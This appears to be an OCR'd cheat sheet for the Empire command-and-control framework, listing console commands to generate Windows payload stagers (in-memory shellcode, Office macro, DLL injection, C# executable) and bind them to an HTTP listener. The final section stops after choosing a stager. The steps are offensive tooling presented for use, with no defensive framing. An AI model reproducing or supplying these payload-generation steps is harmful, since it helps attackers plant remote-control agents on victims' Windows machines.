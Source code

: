 ### In-Memory Shellcode Injection for Windows Systems with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_shellcode
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Macro-Based Payload Execution in Windows Office Apps with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_macro
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### DLL Injection for Windows Payload Delivery with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_dll
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### C# Executable Payload for Windows Execution with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_csharp_exe
    ```
